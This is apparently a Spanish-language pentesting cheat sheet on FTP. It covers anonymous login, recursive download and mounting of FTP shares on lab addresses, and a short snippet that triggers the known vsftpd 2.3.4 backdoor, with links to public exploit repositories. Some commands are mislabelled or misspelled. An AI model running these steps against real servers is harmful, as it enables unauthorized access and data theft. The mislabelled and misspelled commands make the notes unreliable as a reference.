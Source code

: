 ** Anonymous ftp login allowed **
Conexión directa con la herramienta ftp
>`ftp 10.10.10.20`
>Introducir usuario --> anonymous
>Introducir contraseña en blanco
>Listar los recursos una vez entrado al servicio
>`dir`

Descargar de forma recursiva a través del servicio ftp los recursos que contenga
>`wget ftp://anonymous:loquesea@10.10.10.20`

Descargar un archivo una vez logueados en el sistema
>`put file.txt`

Descargar todos los archivos del servicio FTP
>`prompt off`
>`mget *`

Montura sobre servicio FTP con curlftps
Crea una montura sobre el directorio actual ($(pwd)) al servicio FTP
>`which curlftps`			// /urs/bin/curlftps
>`curlftps anonymous:loquesea@10.10.10.78 $(pwd)`

Uso de la utilidad mirror con curl para el servicio FTP
Se obtienen los recursos, -m = mirror, utilidad espejo.
>`wget -m ftp://anonymous:loquesea@10.10.10.78`

==================================================================

** vsftpd-2.3.4 **
https://github.com/ahervias77/vsftpd-2.3.4-exploit
https://github.com/Hellsender01/vsftpd_2.3.4_Exploit

Vulnerabilidad principal en vsftpd-2.3.4:
```
vsftpd.sendline('USER hii:)')

vsftpd.sendline('PASS hello')

p.status('Backdoor Activated')

```

Esta versión tiene un backdoor incorporado que se activa cuando se le pasan ciertos comandos. 

